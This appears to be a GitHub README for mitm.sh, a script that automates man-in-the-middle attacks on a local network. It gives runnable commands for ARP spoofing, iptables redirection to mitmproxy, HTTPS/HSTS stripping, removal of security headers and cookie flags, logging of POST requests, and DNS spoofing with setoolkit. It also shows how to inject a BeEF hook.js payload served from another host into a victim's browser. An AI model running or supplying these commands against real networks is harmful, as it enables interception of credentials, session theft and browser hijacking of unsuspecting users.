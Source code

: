 MITM ATTACK WITH HTTP PROXYING (using [MITMPROXY](http://docs.mitmproxy.org/en/stable/) v1.0)
----------
  
You can run  **mitm.sh**:  
```bash
Usage: ./mitm.sh [-g] [-n] [-s] [-x] [-j] <js payload url> [-d] [-i] <interface> gateway_ip target_ip
       [-g] interactive mode for mitmproxy
       [-n] capture HTTP traffic
       [-s] capture HTTPS traffic
       [-x] stripping https
       [-j] inject js payload
       [-d] dnsspoof + setoolkit
       [-i] interface
```  
**/!\ Working with Mitmproxy v1.0. Mitmproxy will be automatically downloaded and installed.**  
  
Example of command for full interception (HTTPS/HSTS stripping when possible, otherwise Upstream Certificates):  
  
```
sudo ./mitm.sh -g -n -s -x -i wlan0 192.168.1.1 192.168.1.11
```
  
You also can inject a javascript payload (for example Beef payload):  
```
sudo ./mitm.sh -g -n -j http://192.168.1.10:3000/hook.js -i wlan0 192.168.1.1 192.168.1.11
```
  
Or run a DNS spoofing attack (will run dnsspoof and setoolkit):  
```
sudo ./mitm.sh -g -n -d -i wlan0 192.168.1.1 192.168.1.11
```
  
Of course you can run all these features together.  
  
While intercepting trafic, we also aims at:
 - Dropping the following request headers: *If-Modified-Since*,*Cache-Control*,*Upgrade-Insecure-Requests*
 - Dropping the following response headers: *Strict-Transport-Security*,*Public-Key-Pins*,*Content-Security-Policy*,*X-XSS-Protection*,*X-Frame-Options*
 - Dropping meta tag *Content-Security-Policy*
 - Dropping cookies flags *secure*, *HttpOnly*
 - Stripping https:// links and redirections
  
___
  
**mitm.sh** is automating the following steps:  

 - activate ip forwarding (all secured connections will be routed without interception):  
```bash
sysctl -w net.ipv4.ip_forward=1
```

 - avoid to send undesirable ICMP redirect messages
```bash
echo 0 | sudo tee /proc/sys/net/ipv4/conf/*/send_redirects
```

 - configure nat (8080 is the default listening port of mitmproxy):  
```bash
iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 80 -j REDIRECT --to-port 8080
```  
 - and if you want to add HTTPS capture:
```bash
iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 443 -j REDIRECT --to-port 8080
```  
*The REDIRECT target is used to redirect packets and streams to the machine itself. This means that we could for example REDIRECT all packets destined for the HTTP ports to an HTTP proxy (useful for transparent proxying).*  

 - run arp spoofing with calling the script **arpoison.sh**:  
```bash
xterm -geometry 100x25+1+200 -hold -e arpspoof -t [ip victim] [ip route]
xterm -geometry 100x25+1+300 -hold -e arpspoof -t [ip route] [ip victim]
```
*N.B: arpoison.sh can try to force the arp poisoning of some boxes*  

 - check if arp poisoning is working on both ways with **chk_poison.py**:  
```bash
python ./chk_poison.py [ip victim] [ip route]
```

 - run mitmproxy with our custom **sslstrip.py** module, the **injectjs.py** module and the **io_write_dumpfile.py** module. io_write_dumpfile.py is logging only relevant POST requests (if you want to log trafic, **-a \<logfilename\>**):  
```bash
mitmproxy -T --anticache --host --anticomp --noapp --script "./io_write_dumpfile.py ./requests.log" --script ./sslstrip.py --eventlog
```  
  
*N.B: mitmproxy (with option -w/-a for logging) will dump the whole flows in a tnetstrings format.*  
  
You can also run mitmdump (same as mitmproxy but non interactive):  
```bash
mitmdump -T --anticache --host --anticomp --noapp --quiet --script "./io_write_dumpfile.py ./requests.log" --script ./sslstrip.py"
```
 
 - if you want to extra log urls in a file:   
```bash
urlsnarf > ./urlsnarf.txt &
```
  
**Now go on a website with an unsecured (http) landing webpage and try to click on a link forwarding to a secure area. All trafic should stay clear between the victim and mitmproxy.  
If you injected a Beef hook thanks to the -j option, also check the browser hooked in your Beef panel.**  
  
**Don't hesitate to contribute to all of these modules.**


